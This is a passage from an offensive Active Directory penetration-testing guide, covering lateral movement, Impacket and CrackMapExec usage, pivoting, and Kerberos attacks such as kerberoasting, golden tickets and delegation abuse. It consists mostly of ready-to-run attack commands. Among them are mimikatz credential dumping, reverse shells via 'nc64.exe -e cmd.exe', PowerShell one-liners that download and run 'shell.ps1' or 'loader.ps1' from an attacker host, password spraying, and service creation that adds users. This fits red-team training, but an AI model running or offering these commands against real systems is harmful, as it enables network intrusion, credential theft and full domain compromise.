Unregister-ScheduledTask -CimSession $Session -TaskName "evil2" Install an MSI via WMI. Copy the file to the target first (any transport), then invoke Win32_Product:
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{
PackageLocation = "C:\Windows\myinstaller.msi"
Options = ""
AllUsers = $false
}wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi4.7 Impacket Suite
Impacket is the Python-based toolkit that mirrors most Windows remote execution primitives from a Linux attacker box. Every tool accepts the same connection string shape (<domain>/<user>:'<password>'@<target>) and supports hash (-hashes) or Kerberos (-k -no-pass) authentication interchangeably with a password.
4.7.1 psexec.py
Uploads a service binary to ADMIN$, registers a service, and pipes stdin/stdout through named pipes. Loudest of the suite because it drops a service and a binary on disk, but reliable and gives a full interactive shell.
psexec.py <domain.local>/<user>:'<password>'@<target-fqdn>
# Pass-the-Hash
psexec.py -hashes :<ntlm-hash> <domain.local>/<user>@<target-fqdn>
# Kerberos
psexec.py -k -no-pass <domain.local>/<user>@<target-fqdn>4.7.2 smbexec.py
Similar to psexec but avoids writing a binary. It creates a service that runs its command via cmd.exe /c and writes output to a share, then reads the share back. Semi-interactive rather than fully interactive.
smbexec.py <domain.local>/<user>:'<password>'@<target-fqdn>
smbexec.py -hashes :<ntlm-hash> <domain.local>/<user>@<target-fqdn>4.7.3 wmiexec.py
Executes commands through WMI (Win32_Process.Create). No service creation, no binary drop. Semi-interactive: each command spawns a new process. Usually the quietest of the four for one-off commands.
wmiexec.py <domain.local>/<user>:'<password>'@<target-fqdn>
# Fire a single command without dropping into the shell
wmiexec.py <domain.local>/<user>:'<password>'@<target-fqdn> 'whoami /priv'4.7.4 atexec.py
Uses the Task Scheduler (ATSVC named pipe) to schedule a one-shot task, wait for it to run, and read the output. Runs as SYSTEM by default, which is useful when the credential only has Backup Operators / Task Scheduler rights but not full admin.
atexec.py <domain.local>/<user>:'<password>'@<target-fqdn> 'whoami'
atexec.py -hashes :<ntlm-hash> <domain.local>/<user>@<target-fqdn> 'whoami'4.7.5 dcomexec.py
Executes via DCOM. Supports three objects (MMC20.Application, ShellWindows, ShellBrowserWindow), each of which exposes a method that will run an arbitrary command. Useful when SMB is filtered but DCOM (135/tcp plus the dynamic RPC range) is still reachable.
dcomexec.py <domain.local>/<user>:'<password>'@<target-fqdn> -object MMC20
dcomexec.py <domain.local>/<user>:'<password>'@<target-fqdn> -object ShellWindows
dcomexec.py <domain.local>/<user>:'<password>'@<target-fqdn> -object ShellBrowserWindow4.7.6 Choosing Between Them
| Tool | Transport | Requires | Notable |
|---|---|---|---|
psexec.py | SMB + service | ADMIN$ write, service control | Full interactive shell, loudest |
smbexec.py | SMB + service | ADMIN$ write, service control | Semi-interactive, no binary drop |
wmiexec.py | WMI (DCOM) | DCOM open, admin | Quietest, no service, one process per command |
atexec.py | ATSVC (SMB pipe) | Task Scheduler rights | Runs as SYSTEM, blind output timing |
dcomexec.py | DCOM | DCOM open, admin | Works when SMB is filtered but 135/tcp is open |
4.8 Pass-the-Hash
If the domain still permits NTLM auth, an NTLM hash is equivalent to a password. Extract hashes from the local SAM or LSASS:
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam
# RID : 000001f4 (500)
# User : Administrator
# Hash NTLM: Extracting from LSASS, includes any domain user who has recently logged on:
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # sekurlsa::msvInject a token and spawn a command as the victim user. token::revert first, PtH won't work under an elevated token:
mimikatz # token::revert
mimikatz # sekurlsa::pth /user: /domain: /ntlm: /run:"c:\tools\nc64.exe -e cmd.exe 5555" Catch the shell:
nc -lvp 55554.9 Pass-the-Ticket
LSASS holds Kerberos tickets and their session keys. Export them (SYSTEM privileges required for anything but your own):
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /exportInject a captured TGT into your session:
mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-.kirbi Verify with klist. TGTs are strictly more useful than TGSs because they can request tickets to arbitrary services.
4.10 Overpass-the-Hash / Pass-the-Key
Kerberos derives an encryption key from the user's password using RC4, AES128, or AES256. With any of those keys, we can request a TGT without ever knowing the plaintext. Extract keys from memory:
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeysPtK with the RC4 key (equals the NTLM hash), Overpass-the-Hash:
mimikatz # sekurlsa::pth /user:Administrator /domain: /rc4: /run:"c:\tools\nc64.exe -e cmd.exe 5556" AES128:
mimikatz # sekurlsa::pth /user:Administrator /domain: /aes128: /run:"c:\tools\nc64.exe -e cmd.exe 5556" AES256:
mimikatz # sekurlsa::pth /user:Administrator /domain: /aes256: /run:"c:\tools\nc64.exe -e cmd.exe 5556" Catcher:
nc -lvp 55564.11 Executing Remote Commands with Credentials
Given creds and open WinRM, an inline PowerShell one-liner runs any command remotely:
$pass = convertto-securestring -AsPlainText -Force -String 'pass'
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist '\', $pass
Invoke-Command -ComputerName computer-name -Credential $cred -Port 5985 -ScriptBlock { command } Real-world example, use captured credentials to trigger a remote payload download:
$username = "\Administrator"
$password = ""
$securestring = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object { $securestring.AppendChar($_) }
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $securestring
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://attacker-ip:8080/shell.ps1') } -Credential $cred -Computer localhost 4.12 Port Forwarding
Once inside a segment, pivoting through the foothold host gives access to internal services from the attacker workstation.
4.11.1 SSH Remote Port Forwarding
If the attacker can't reach a server directly but the foothold PC-1 can, remote port forwarding pushes that port back to the attacker's box.
ssh tunneluser@ -R 3389::3389 -N -N suppresses shell allocation on the attacker box (tunneluser can be non-interactive). RDP from the attacker's box goes to 127.0.0.1:3389:
xfreerdp /v:127.0.0.1 /u:MyUser /p:4.11.2 SSH Local Port Forwarding
Local port forwarding "pulls" a port from the attacker into the pivot. Publish port 80 from the attacker on PC-1:
ssh tunneluser@ -L *:80:127.0.0.1:80 -N Open the firewall on PC-1 so incoming connections reach the new listener (needs admin):
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=804.11.3 Port Forwarding with socat
Where SSH is unavailable, socat delivers similar functionality with fewer moving parts. Basic syntax, accept on 1234, forward to 4321 on
socat TCP4-LISTEN:1234,fork TCP4::4321 Equivalent of SSH remote forwarding for RDP:
socat TCP4-LISTEN:3389,fork TCP4::3389 Open the firewall:
netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389Attacker-side listener published back through PC-1:
socat TCP4-LISTEN:80,fork TCP4::80 4.11.4 Dynamic Forwarding with SOCKS
Single-port forwarding doesn't scale, SOCKS proxies do. Since Windows machines rarely run SSH servers, the client-side SSH runs the tunnel:
ssh tunneluser@ -R 9050 -N Configure proxychains to match in /etc/proxychains.conf:
[ProxyList]
socks4 127.0.0.1 9050Route any command through the tunnel:
proxychains curl http://nmap through SOCKS is unreliable in some situations, mileage varies.
Methodology
- Enumerate reachable hosts and services from the foothold:
Get-NetSession -ComputerName <target> Test-NetConnection <host> -Port 5985 - Pick a lateral movement technique consistent with your access level (admin, local, remote WinRM).
- Prefer WinRM/PSRemoting for stealth:
$cred = New-Object System.Management.Automation.PSCredential('DOMAIN\user', (ConvertTo-SecureString 'pass' -AsPlainText -Force)) Invoke-Command -ComputerName <target> -Credential $cred -ScriptBlock { whoami } - Use WMI when WinRM is blocked:
$Opt = New-CimSessionOption -Protocol DCOM $Session = New-CimSession -ComputerName <target> -Credential $cred -SessionOption $Opt Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{ CommandLine = "cmd.exe /c calc.exe" } - Fall back to sc.exe/schtasks when neither WinRM nor WMI works:
sc.exe \\TARGET create evil binPath= "net user u1 P@ss1 /add" start= auto schtasks /s TARGET /RU "SYSTEM" /create /tn "evil" /tr "<payload>" /sc ONCE /sd 01/01/1970 /st 00:00 - Where NTLM is permitted, use PtH:
mimikatz # sekurlsa::pth /user:Administrator /domain:/ntlm:<hash> /run:cmd.exe - Where Kerberos-only, use PtK/OPtH or PtT:
mimikatz # sekurlsa::pth /user:Administrator /domain:/aes256:<aes256> /run:cmd.exe mimikatz # kerberos::ptt ticket.kirbi - Establish a persistent SOCKS tunnel once a pivot is confirmed:
ssh tunneluser@<attacker> -R 9050 -N proxychains <tool> - Clean up (delete services, unregister tasks, remove PSSessions), every artifact left is an IR lead:
sc.exe \\TARGET stop evil sc.exe \\TARGET delete evil schtasks /S TARGET /TN "evil" /DELETE /F Remove-PSSession $sess
5. Using CrackMapExec
CrackMapExec (CME), and its actively maintained fork NetExec (nxc), pack the most-used AD attack surfaces behind a single fast multi-target CLI. SMB, MSSQL, WinRM, LDAP, and RDP all live under the same tool. Where PowerView is what I reach for during enumeration and Impacket is what I use for surgical single-target work, CME is what I sweep a segment with when I need to know, in under a minute, which hosts are reachable, what signing looks like, and whose credentials still work.
5.1 Basic Usage
CME's canonical form is cme <protocol> <target(s)> [options]. The target accepts a single IP, a CIDR range, or a file of hosts, and every protocol shares the same authentication flag set.
# Anatomy: protocol, target(s), credential, then per-protocol flags
crackmapexec <protocol> <target-or-file> -u <user> -p <password> [--options]
# Validate one credential across a subnet
crackmapexec smb <subnet> -u <user> -p '<password>'
# Spray one password over a userlist against a DC
crackmapexec smb <dc-ip> -u users.txt -p '<password>' --continue-on-success
# Anonymous RID brute-force over SAMR
crackmapexec smb <dc-ip> -u "" -p "" --rid-brute
# Provide a hash instead of a password (Pass-the-Hash)
crackmapexec smb <target> -u <user> -H <ntlm-hash>Common flags across every protocol:
| Flag | Purpose |
|---|---|
-u, -p | Username / password (string or file) |
-H | NTLM hash instead of a password |
-k | Use Kerberos with a ticket in KRB5CCNAME |
-d | Domain name |
--local-auth | Authenticate against the local SAM rather than the domain |
--continue-on-success | Do not stop after the first hit |
-M | Load a module |
5.2 SMB Protocol
SMB is the workhorse. Almost every internal engagement begins with a full SMB sweep of the reachable segment.
5.2.1 Host Discovery and Signing Status
A bare command returns hostname, OS, domain, and SMB signing status for every reachable host. Signing status decides whether the host is a valid NTLM relay target.
# Fingerprint every SMB host in the range
crackmapexec smb <subnet>
# Emit a file of hosts with signing not required (candidates for relay)
crackmapexec smb <subnet> --gen-relay-list relay_targets.txt5.2.2 Credential Validation and Password Spray
Validate a credential across many hosts, or spray one password across many usernames. The [+] marker means auth succeeded, and the (Pwn3d!) tag flags local admin.
# Validate one credential across the segment
crackmapexec smb <subnet> -u <user> -p '<password>'
# Spray one password over a userlist and keep going after the first hit
crackmapexec smb <dc-ip> -u users.txt -p '<password>' --continue-on-success
# Pull the domain password policy first to size the spray safely
crackmapexec smb <dc-ip> -u <user> -p '<password>' --pass-pol5.2.3 Share, Session, and Logged-on Enumeration
With a valid credential, pull shares, current logon sessions, disk layout, and local group membership.
# SMB shares and permissions on each host
crackmapexec smb <subnet> -u <user> -p '<password>' --shares
# Users currently logged onto each host
crackmapexec smb <subnet> -u <user> -p '<password>' --loggedon-users
# Active SMB sessions
crackmapexec smb <subnet> -u <user> -p '<password>' --sessions
# Disks / logical drives
crackmapexec smb <subnet> -u <user> -p '<password>' --disks
# Local group membership (Administrators, Remote Management Users, etc.)
crackmapexec smb <target> -u <user> -p '<password>' --local-groupsThe spider_plus module walks shares recursively and records file metadata. Invaluable when hunting for stored credentials or config files on shares.
# Recursive share spider with file metadata
crackmapexec smb <subnet> -u <user> -p '<password>' -M spider_plus5.2.4 SAM, LSA, and NTDS Dumping
The lsassy and nanodump modules replace the SAM/LSA/NTDS flags when you want LSASS credentials without triggering the usual SAM/NTDS heuristics. nanodump in particular uses handles obtained via NtGetNextProcess and writes a truncated dump the parser still accepts:
# lsassy pulls credentials straight out of LSASS memory
crackmapexec smb <target> -u <user> -p '<password>' -M lsassy
# nanodump: smaller, quieter minidump
crackmapexec smb <target> -u <user> -p '<password>' -M nanodumpWith local admin, dump credentials directly. LSA often contains cleartext DPAPI-decryptable secrets. NTDS is domain-wide and needs DC access.
# Local SAM (workstation local accounts)
crackmapexec smb <target> -u <user> -p '<password>' --sam
# LSA secrets (cached logons, service accounts)
crackmapexec smb <target> -u <user> -p '<password>' --lsa
# Full NTDS dump against a DC (needs DA or replication rights)
crackmapexec smb <dc-ip> -u <user> -p '<password>' --ntds5.2.5 Command Execution
Three execution methods, each with a different remote service and detection profile.
# WMI (default, quiet)
crackmapexec smb <target> -u <user> -p '<password>' -x 'whoami'
# atexec (schedules a task)
crackmapexec smb <target> -u <user> -p '<password>' -x 'whoami' --exec-method atexec
# smbexec (creates a service, loud but reliable)
crackmapexec smb <target> -u <user> -p '<password>' -x 'whoami' --exec-method smbexec
# PowerShell payload rather than raw cmd
crackmapexec smb <target> -u <user> -p '<password>' -X 'IEX(New-Object Net.WebClient).DownloadString("http://<attacker>/loader.ps1")'5.3 LDAP Protocol
The LDAP protocol module wraps common attack-relevant queries so you do not have to write filters by hand. Same authentication flags as SMB.
5.3.1 Domain Enumeration
# Users, groups, and computers
crackmapexec ldap <dc-ip> -u <user> -p '<password>' --users
crackmapexec ldap <dc-ip> -u <user> -p '<password>' --groups
crackmapexec ldap <dc-ip> -u <user> -p '<password>' --computers
# Domain password policy over LDAP
crackmapexec ldap <dc-ip> -u <user> -p '<password>' --password-policy
# Run a raw LDAP filter
crackmapexec ldap <dc-ip> -u <user> -p '<password>' --query '(objectClass=user)' ''5.3.2 Kerberoasting and AS-REP Roasting Shortcuts
The LDAP module runs the enumeration and ticket request in one step.
# Kerberoast every user with an SPN
crackmapexec ldap <dc-ip> -u <user> -p '<password>' --kerberoasting kerb.txt
# AS-REP roast every pre-auth-disabled account
crackmapexec ldap <dc-ip> -u <user> -p '<password>' --asreproast asrep.txt
# Accounts trusted for unconstrained delegation
crackmapexec ldap <dc-ip> -u <user> -p '<password>' --trusted-for-delegation5.4 WinRM Protocol
WinRM is the cleanest remote execution channel when it is available. Ports 5985 / 5986. The -x and -X flags execute cmd or PowerShell respectively.
# Validate credentials over WinRM (Pwn3d! flag means user is in Remote Management Users)
crackmapexec winrm <target> -u <user> -p '<password>'
# Command execution
crackmapexec winrm <target> -u <user> -p '<password>' -x 'whoami'
# In-memory PowerShell payload
crackmapexec winrm <target> -u <user> -p '<password>' -X 'IEX(New-Object Net.WebClient).DownloadString("http://<attacker>/loader.ps1")'5.5 MSSQL Protocol
MSSQL instances often accept domain credentials and run under service accounts with excessive privileges. The mssql module validates creds, runs queries, and pops xp_cmdshell in one place.
# Validate a credential against an MSSQL instance
crackmapexec mssql <target> -u <user> -p '<password>'
# Run a query
crackmapexec mssql <target> -u <user> -p '<password>' -q "SELECT @@version"
# Enable and use xp_cmdshell in one line
crackmapexec mssql <target> -u <user> -p '<password>' -x 'whoami'
# Windows auth against MSSQL
crackmapexec mssql <target> -u <user> -p '<password>' -d <domain> --windows-auth5.6 Kerberos Authentication
Every protocol supports Kerberos with -k. Point KRB5CCNAME at a ccache and CME will use it in place of a password. Essential when NTLM is disabled or when the credential material is a ticket rather than a password.
export KRB5CCNAME=/tmp/<user>.ccache
# Kerberos over SMB
crackmapexec smb <target-fqdn> -u <user> -k --use-kcache
# Kerberos over LDAP
crackmapexec ldap <dc-fqdn> -u <user> -k --use-kcache --users5.7 NetExec Modules
NetExec's -M flag loads modules that automate specific attack primitives. The slinky module drops an SCF file that coerces authentication when a user browses a share, useful for capturing hashes when combined with Responder:
netexec smb -d -u -p -M slinky -o NAME= SERVER= Breakdown:
| Argument | Purpose |
|---|---|
netexec smb | target the SMB protocol |
| victim IP |
-d | domain |
-u | auth |
-M slinky | module |
-o NAME= | module options |
5.8 Responder Integration
Responder poisons LLMNR/NBT-NS/mDNS and captures NTLMv2 hashes when the SCF forces a lookup. Start it on the same interface:
sudo responder -I eth0 -dpVThe typical CME + Responder flow: run CME to plant slinky, wait for a user to browse the share, capture the hash, crack offline.
Methodology
- Sweep the target subnet with SMB to identify hosts, OS versions, and signing status:
crackmapexec smb - Spray any known passwords, respecting lockout:
crackmapexec smb-u users.txt -p ' ' --continue-on-success - Try anonymous RID brute-force against DCs to build a user list from scratch:
crackmapexec smb <DC> -u "" -p "" --rid-brute - Once creds are confirmed, layer NetExec modules to extract further value:
netexec smb <target> -u <u> -p <p> -M slinky -o NAME=share SERVER=<attacker> netexec smb <target> -u <u> -p <p> -M lsassy netexec smb <target> -u <u> -p <p> -M enum_avproducts - Feed captured hashes into cracking (mode 5600 for NTLMv2) or relay with
ntlmrelayx:hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt python ntlmrelayx.py -tf targets.txt -smb2support
6. Kerberos Attacks
Kerberos is the default authentication protocol in Windows domains. Its ticket-based design and stronger crypto were meant to raise the bar over NTLM, but the attack surface has stayed wide open. Pre-authentication weaknesses, service ticket cracking, delegation abuse, and outright ticket forgery all belong here. Understanding the six-step flow between client, KDC, and service is the prerequisite for every attack that follows; skip that and the tooling starts feeling like magic.

6.1 Common Terminology
| Term | Meaning |
|---|---|
| Ticket Granting Ticket (TGT) | the authentication ticket used to request service tickets from the TGS. |
| Key Distribution Center (KDC) | the DC service that issues TGTs and TGSs. Comprises the Authentication Service (AS) and the Ticket Granting Service (TGS). |
| Authentication Service (AS) | issues TGTs consumed by the TGS. |
| Ticket Granting Service (TGS) | issues service tickets against a valid TGT. |
| Service Principal Name (SPN) | an identifier that associates a service instance with a domain service account. A service must have an SPN to be Kerberos-authenticable. |
| KDC Long Term Secret Key (KDC LT Key) | derived from the KRBTGT service account. Encrypts the TGT and signs the PAC. |
| Client Long Term Secret Key (Client LT Key) | derived from the computer or service account. Used to encrypt the pre-auth timestamp and the session key. |
| Service Long Term Secret Key (Service LT Key) | derived from the service account. Used to encrypt the service portion of the TGS and sign the PAC. |
| Session Key | issued by the KDC alongside a TGT. Presented with the TGT when requesting a service ticket. |
| Privilege Attribute Certificate (PAC) | the user's group memberships and SIDs, signed by the KDC LT Key. |
6.2 Kerberos Authentication Overview

The six-step flow of a full authentication:
| Step | Message | What happens |
|---|---|---|
| 1 | AS-REQ | Client requests a TGT and presents an encrypted timestamp as pre-auth. |
| 2 | AS-REP | KDC verifies the pre-auth and returns an encrypted TGT plus a session key. |
| 3 | TGS-REQ | Client sends the TGT and the SPN of the desired service. |
| 4 | TGS-REP | KDC returns a service ticket encrypted with the service account's key. |
| 5 | AP-REQ | Client presents the service ticket to the target service. |
| 6 | AP-REP | Service accepts and grants access. |
Tickets are commonly seen as .kirbi (Rubeus) or .ccache (Impacket) files. Both are typically base64-encoded when passed between tools.
6.3 Kerberos Tickets
The TGT is only used to obtain service tickets, never presented to a service directly. The KDC creates a TGT after validating credentials, encrypts it with the KRBTGT key, and returns it alongside a session key. To obtain a service ticket, the client sends both to the KDC with the target SPN. If they validate, the KDC issues the TGS.
Kerberoasting is the flagship attack against the TGS flow: any authenticated user can request a service ticket for any SPN. That ticket is encrypted with the service account's password, so weak service passwords crack offline. Summarised:
- Scan AD for accounts with SPNs set.
- Request service tickets for those SPNs.
- Extract the tickets to disk.
- Offline brute-force the encryption to reveal the password.
6.3.1 Baseline Kerberos Enumeration
Every Kerberos attack starts with a valid user list and a target DC. The per-attack methodology blocks below assume this baseline has been established.
Methodology
- Build a user list with Kerbrute, RID brute, or LDAP:
python3 kerbrute.py userenum --dc <dc> -d domain.local users.txt netexec smb <dc-ip> -u '' -p '' --rid-brute - Identify the DC (SPN
ldap/*,krbtgtaccount, PDC role):nxc smb <dc-ip> -u user -p pass --shares setspn -T domain.local -Q ldap/*
6.4 Enumerating Usernames and Tickets
Discover valid users by brute-forcing a candidate list against the AS-REP flow. Kerbrute is the fastest:
python kerbrute.py -domain -dc -t 100 -users Impacket's GetUserSPNs.py pulls service tickets in one shot:
./GetUserSPNs.py -request domain/usernameRubeus can harvest tickets continuously in-memory, great when a user is intermittently logged in:
Rubeus.exe harvest /interval:306.5 Password Spraying
Account lockout thresholds forbid full brute-force. Instead, spray a single high-probability password across every collected username. Detection risk is a function of the failed authentication volume, pace accordingly.
./kerbrute_linux_amd64 passwordspray -v -d –dc [ip] [users.txt] password123 Impacket's lookupsid.py feeds a fresh username list to spray:
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@ | tee usernames Kerbrute password spray with an explicit password file:
python kerbrute.py -domain -dc -t 100 -users -passwords 6.6 AS-REP Roasting
Kerberos pre-authentication requires the client to prove identity before the KDC issues a ticket. When pre-auth is disabled on an account, the KDC hands back an AS-REP encrypted with the target user's long-term key, which is derived from their password. That AS-REP can be cracked offline, and the account never needs to be logged in for it to happen.

Fetch AS-REPs for a list of users:
python3 GetNPUsers.py -dc-ip [ip] / -usersfile [list-of-found-users-from-command-above] Methodology
- Locate accounts with
DONT_REQ_PREAUTHinuserAccountControl:Get-DomainUser -PreauthNotRequired ldapsearch -H ldap://<dc> -x -D 'user@domain.local' -w pass -b 'DC=domain,DC=local' '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))' sAMAccountName - Fetch AS-REPs with
GetNPUsers.py -format hashcatand crack withhashcat -m 18200:python3 GetNPUsers.py -dc-ip <dc> domain.local/ -usersfile users.txt -format hashcat -outputfile asrep.hash hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt
6.7 Brute Forcing Usernames and Passwords
Combining userlist and password list against Kerberos AS-REQ, noisy but effective in labs and against permissive domains:
python kerbrute.py -domain -users users.txt -passwords passwords.txt -outputfile passwords-found.txt 6.8 Kerberoasting with Cracked Credentials
Kerberoasting escalates via cracked service accounts. Any authenticated user can request a TGS for any SPN, the crackability of the returned hash depends on the strength of the service password:
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip '/:' -outputfile kerberoasting_hashes.txt Methodology
- Enumerate user accounts with a populated
servicePrincipalName:Get-DomainUser -SPN setspn -T domain.local -Q */* - Request TGS with
GetUserSPNs.py -outputfile, then crack withhashcat -m 13100:python3 GetUserSPNs.py -dc-ip <dc> domain.local/user:pass -outputfile spns.hash hashcat -m 13100 spns.hash /usr/share/wordlists/rockyou.txt
6.9 Brute Forcing a User Hash via TGT Retrieval
Given a list of users and NTLM hashes with unclear pairing, iterate every combination through getTGT.py, a valid pair returns a TGT:
#!/bin/bash
# Request the TGT with hash
for i in $(cat wordlists/valid.usernames)
do
for j in $(cat wordlists/hashes.ntds)
do
echo trying $i:$j
echo
getTGT.py /$i -hashes $j:$j
echo
sleep 5
done
done 6.10 Golden Tickets
Golden Tickets are forged TGTs signed with the KRBTGT hash. The KDC verifies the signature and nothing else, so a TGT built for any account name (real, invented, deleted) is accepted. Key properties:
- Injection happens at the TGT stage, which skips password verification for the impersonated account.
- The KDC only re-validates the account inside the TGT when the ticket is older than 20 minutes. Below that window, a deleted or non-existent account still works.
- Ticket lifetime and renewal fields live inside the ticket. Ten-year TGTs are trivial to forge.
- KRBTGT is not rotated by default. Owning its hash means indefinite persistence.
- The only reliable remediation is rotating KRBTGT twice. That rotation breaks any service caching a TGT during the change window, which is why blue teams put it off.
- Smart card requirements are checked before the TGT is minted, not on presentation, so a Golden Ticket sidesteps them.
- Golden Tickets can be produced on any host, including non-domain-joined attacker machines.
Grab the domain SID from the DC:
Get-ADDomainForge and inject the ticket in one go:
mimikatz # kerberos::golden /admin:pass /domain: /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt Flag reference:
| Flag | Description |
|---|---|
/admin | impersonated username (doesn't need to exist) |
/domain | FQDN of the target domain |
/id | user RID (500 = default Administrator) |
/sid | domain SID |
/krbtgt | NTLM hash of KRBTGT |
/endin | ticket lifetime (default 10 years in Mimikatz; Kerberos default is 600 minutes) |
/renewmax | maximum ticket lifetime with renewal (Kerberos default 7 days = 10080 minutes) |
/ptt | inject the ticket into the current session |
Verify by dropping into the DC's ADMIN share:
dir \\\c$\ Methodology
- DCSync KRBTGT:
lsadump::dcsync /user:krbtgt:mimikatz # lsadump::dcsync /domain:domain.local /user:krbtgt - Forge and inject:
kerberos::golden /admin:... /sid:<domain-sid> /krbtgt:<hash> /id:500 /ptt:mimikatz # kerberos::golden /admin:pass /domain:domain.local /id:500 /sid:<domain-sid> /krbtgt:<hash> /endin:600 /renewmax:10080 /ptt - Verify with
dir \\<dc>\c$from the current session:dir \\<dc-fqdn>\c$\
6.11 Silver Tickets
Silver Tickets are forged TGSs signed with the service account's key. They are harder to detect because the DC is never contacted, and harder to defend against because rotating every machine account password on a schedule is operationally painful.

Properties worth remembering:
- TGS is signed by the machine account of the targeted host.
- Access is scoped to the specific service on the specific host, narrower than Golden.
- No associated TGT, no DC logs.
- Machine account passwords rotate every 30 days by default. Registry tweaks can freeze that rotation for persistence.
- Machine accounts can be used like normal AD accounts, allowing further enumeration and lateral movement.
Forge and inject a Silver Ticket for CIFS on a target server:
mimikatz # kerberos::golden /admin:PASS /domain: /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt Flag reference (additions over Golden):
| Flag | Description |
|---|---|
/target | FQDN of the target server |
/rc4 | NTLM hash of the target machine account |
/service | service type (CIFS = file share access) |
Verify with a UNC path against SERVER1:
dir \\\c$\ Methodology
- Recover the target machine account's NTLM hash (LSASS dump, DCSync, or reused local admin):
mimikatz # sekurlsa::logonpasswords mimikatz # lsadump::dcsync /user:<machine>$ - Forge with
kerberos::golden /target:<host> /rc4:<machine-hash> /service:cifs /ptt:mimikatz # kerberos::golden /admin:pass /domain:domain.local /id:500 /sid:<domain-sid> /target:<target-fqdn> /rc4:<machine-hash> /service:cifs /ptt dir \\<target-fqdn>\c$\
6.12 Overpass-the-Hash
Kerberos derives its long-term key from the account password. For RC4-HMAC that key is identical to the NTLM hash, and for AES it is a PBKDF2 derivation of the password. Possession of the hash is therefore equivalent to possession of the password for the AS-REQ step. Overpass-the-Hash turns a Pass-the-Hash credential into a full Kerberos foothold by requesting a TGT rather than performing an NTLM handshake.
Rubeus asktgt with the RC4 key:
Rubeus.exe asktgt /user:<user> /rc4:<ntlm-hash> /domain:<domain.local> /dc:<dc-fqdn> /pttImpacket equivalent:
getTGT.py -hashes :<ntlm-hash> <domain.local>/<user>
export KRB5CCNAME=<user>.ccache
# Downstream tools now use the ticket transparently
smbclient.py -k <domain.local>/<user>@<target-fqdn>AES key variant, which many hardened domains prefer over RC4:
Rubeus.exe asktgt /user:<user> /aes256:<aes256-key> /domain:<domain.local> /dc:<dc-fqdn> /pttMethodology
- Recover the NTLM hash (LSASS dump, DCSync, LAPS, cached credentials):
mimikatz # sekurlsa::logonpasswords secretsdump.py -just-dc-user <user> domain.local/<da>:pass@<dc> - Request a TGT with
Rubeus asktgt /rc4:<hash> /pttorgetTGT.py -hashes :<hash>:Rubeus.exe asktgt /user:<user> /rc4:<ntlm-hash> /domain:domain.local /dc:<dc-fqdn> /ptt getTGT.py -hashes :<ntlm-hash> domain.local/<user> - Prefer
/aes256:in hardened domains that disable RC4 pre-auth:Rubeus.exe asktgt /user:<user> /aes256:<aes256-key> /domain:domain.local /dc:<dc-fqdn> /ptt
6.13 Unconstrained Delegation Attack Chain
Unconstrained delegation on a host means every user who authenticates to it forwards their own TGT for the host to store locally. A compromised host with unconstrained delegation becomes a TGT collector. Coerce a Domain Controller (or any high-value account) to authenticate to that host and its TGT lands in LSASS.
Enumerate hosts with unconstrained delegation via LDAP or PowerView:
# PowerView: computer accounts with TRUSTED_FOR_DELEGATION set
Get-DomainComputer -Unconstrained -Properties samaccountname, dnshostnameOn the compromised delegation host, start Rubeus in monitor mode to catch incoming TGTs. Filter to the target computer so the console does not fill with noise:
Rubeus.exe monitor /interval:5 /filteruser:<target-dc>$Coerce the target to authenticate. The classic primitive is SpoolSample against a DC still running Print Spooler:
SpoolSample.exe <target-dc>.<domain.local> <ud-host>.<domain.local>Modern alternatives when Print Spooler is disabled or patched:
# PetitPotam via MS-EFSR (patched but often still working on unpatched DCs)
python3 PetitPotam.py -u <user> -p '<password>' -d <domain> <ud-host> <target-dc>
# DFSCoerce via MS-DFSNM
python3 dfscoerce.py -u <user> -p '<password>' -d <domain> <ud-host> <target-dc>Rubeus prints the captured TGT as base64. Inject it locally:
Rubeus.exe ptt /ticket:<base64-ticket>
# Verify and DCSync
klist
mimikatz # lsadump::dcsync /domain:<domain.local> /user:krbtgtMethodology
- Enumerate hosts with
TRUSTED_FOR_DELEGATIONvia PowerView or LDAP:Get-DomainComputer -Unconstrained -Properties samaccountname, dnshostname - On the compromised UD host, run
Rubeus monitor /filteruser:<target>$:Rubeus.exe monitor /interval:5 /filteruser:<target-dc>$ - Coerce the target with SpoolSample, PetitPotam, or DFSCoerce:
SpoolSample.exe <target-dc>.domain.local <ud-host>.domain.local python3 PetitPotam.py -u user -p pass -d domain <ud-host> <target-dc> - Inject the captured TGT with
Rubeus ptt, then DCSync:Rubeus.exe ptt /ticket:<base64-ticket> mimikatz # lsadump::dcsync /domain:domain.local /user:krbtgt
6.14 Constrained Delegation (S4U2Self / S4U2Proxy)
Constrained delegation allows a service account to impersonate users, but only to the specific SPNs listed in msDS-AllowedToDelegateTo. The abuse chain runs two Kerberos service-for-user extensions in sequence:
| Extension | What the service requests | Result |
|---|---|---|
| S4U2Self | Service ticket to itself on behalf of an arbitrary user. | Forwardable ticket for the impersonated identity. |
| S4U2Proxy | Exchange of that forwardable ticket for a ticket to any SPN in msDS-AllowedToDelegateTo. | Service ticket to the downstream target as the impersonated user. |
Compromise a service account with constrained delegation, then impersonate Administrator to any allowed SPN. Impacket flow:
# Get a TGT for the compromised service account
getTGT.py <domain.local>/<service-user>:'<password>'
